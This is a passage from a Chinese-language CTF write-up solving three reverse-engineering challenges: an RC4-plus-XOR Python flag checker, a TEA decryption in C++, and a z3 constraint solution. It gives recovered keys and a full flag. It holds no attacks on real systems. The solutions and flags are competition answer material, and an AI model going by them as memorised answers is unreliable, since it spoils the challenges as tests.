enc = b'\xe6\xaeC~F\xf2\xe3\xbb\xac\x9a-\x02U\x85p\xeb\x19\xd1\xe4\xc93sG\xb0\xeb1\xb5\x05\x05\xc3\xd7\x00\x18+D\xbc\x0cO\x9em\xf1\xbd'
flag = input('Please input Your flag:')
flag = (lambda .0: [ ord(i) for i in .0 ])(flag)
flag = Encrypt(flag, Key.key)
if flag != enc:
    print("It's not flag!")
    continue
print('You are right!')
sys.exit(1)
continue

```

里面有一个 import Key，Key在哪呢？我们可以在文件夹 PYZ-00.pyz_extracted 中找到 Key.pyc。

```python
# Visit https://www.lddgo.net/string/pyc-compile-decompile for more information
# Version : Python 3.9

key = 'yOU_f1nd_m3'
keykey = [
    66,
    97,
    115,
    101]
```

keykey 其实就是字符串 Base。

总结一下，大致解密流程就是先把 enc 进行 RC4 解密，key 是 yOU_f1nd_m3，然后再进行异或解密，异或的字符串是 Base，直接 CyberChef 实现。


### 喝杯下午茶
题目提示很明显，应该和 TEA 有关。


程序里面有一个很标准的 TEA，直接跑就行。

```cpp
#include <bits/stdc++.h>
using namespace std;
void decrypt(uint32_t &v4,uint32_t &v5)
{
    uint32_t delta = 0x114514;
    uint32_t v3 = delta*32;
    for(int i=0;i<32;i++)
    {
        v5 -= (v4 + v3) ^ (16 * v4 + 0x99AABBCC) ^ ((v4 >> 5) + 0xDDEEFF11);
        v4 -= (v5 + v3) ^ (16 * v5 + 0x11223344) ^ ((v5 >> 5) + 0x55667788);
        v3 -= delta;
    }
}
string ToString(uint32_t x)
{
    uint32_t temp = 256*256*256;
    string ans="";
    for(int i=0;i<=3;i++)
    {
        int c = x/temp;
        ans+=char(c);
        x-=c*temp;
        temp/=256;
    }
    reverse(ans.begin(),ans.end());
    return ans;
}
uint32_t v4s[]={0x94B1F1E7,0x5247793D,0xF36E7F74,0x6AEACFD8,0xEAFD9E2E};
uint32_t v5s[]={0x21D5D352,0x40D1C97,0x9C53F70F,0x6F9F06F4,0x32B655F7};
int main()
{
    for(int i=0;i<5;i++)
    {
        decrypt(v4s[i],v5s[i]);
        //cout<<v4s[i]<<" "<<v5s[i]<<endl;
        cout<<ToString(v4s[i])<<ToString(v5s[i]);
    }
    return 0;
}
//BaseCTF{h3r3_4_cuP_0f_734_f0R_y0U!!!!!!}

```


### neuro爱数学
<font style="color:rgb(51, 51, 51);">已知开头</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">BaseCTF{</font>`<font style="color:rgb(51, 51, 51);">，包含字符串</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">11AdD8_result_21</font>`<font style="color:rgb(51, 51, 51);">， 分析发现最后一次</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">/</font>`<font style="color:rgb(51, 51, 51);">要得到</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">Base</font>`<font style="color:rgb(51, 51, 51);">，那么除数只能是1，添加约束条件z3求解：</font>

```python
from z3 import *

# 创建求解器
solver = Solver()

# 定义变量
x = [Int(f'x{i}') for i in range(9)]


constraints = [
(0+1*x[0]-37*x[1]+1369*x[2]-50653*x[3]+1874161*x[4]-69343957*x[5]-1729240887*x[6]-442596621*x[7]-803794207*x[8])%0x100000000==0,
(0+1*x[0]-9*x[1]+81*x[2]-729*x[3]+6561*x[4]-59049*x[5]+531441*x[6]-4782969*x[7]+43046721*x[8])%0x100000000==0,
(0+1*x[0]-4*x[1]+16*x[2]-64*x[3]+256*x[4]-1024*x[5]+4096*x[6]-16384*x[7]+65536*x[8])%0x100000000==0,
(0+1*x[0]+5*x[1]+25*x[2]+125*x[3]+625*x[4]+3125*x[5]+15625*x[6]+78125*x[7]+390625*x[8])%0x100000000==0,
(0+1*x[0]+6*x[1]+36*x[2]+216*x[3]+1296*x[4]+7776*x[5]+46656*x[6]+279936*x[7]+1679616*x[8])%0x100000000==0,
(0+1*x[0]+17*x[1]+289*x[2]+4913*x[3]+83521*x[4]+1419857*x[5]+24137569*x[6]+410338673*x[7]-1614177151*x[8])%0x100000000==0,
(0+1*x[0]+44*x[1]+1936*x[2]+85184*x[3]+3748096*x[4]+164916224*x[5]-1333620736*x[6]+1450229760*x[7]-614400000*x[8])%0x100000000==0,
(0+1*x[0]+58*x[1]+3364*x[2]+195112*x[3]+11316496*x[4]+656356768*x[5]-586013120*x[6]+370977408*x[7]+41853184*x[8])%0x100000000==0,
x[0] == 0x98aafcc0,
x[1] == 0x7fd5da0,
x[2] == 0x75186ec, 
x[3] == 0xff4652b8,
x[4] == 0x7feb2ef9,
x[6] == 0xFFFFFE9A,
x[7] == 0xFFFFFFB0,
x[8] == 1
]

# 将方程添加到求解器中
solver.add(constraints)

solutions = []
while solver.check() == sat:
    m = solver.model()
    solutions.append([m[x[i]] for i in range(9)])
    
    # 排除当前解
    solver.add(Or([x[i] != m[x[i]] for i in range(9)]))
    # if(((solutions[-1][0].as_long()) & 0xffffffff) // ((solutions[-1][-1].as_long()) & 0xffffffff) == 3237784216):
    for i in solutions[-1]:
        print(hex(i.as_long() & 0xffffffff), end=" ")
    print()
    for i in solutions[-1]:
        print(i.as_long() & 0xffffffff, end=" ")
    print()

print(solutions)
```

<font style="color:rgb(51, 51, 51);">随便选一个结果带入exe就能拿到flag：</font>


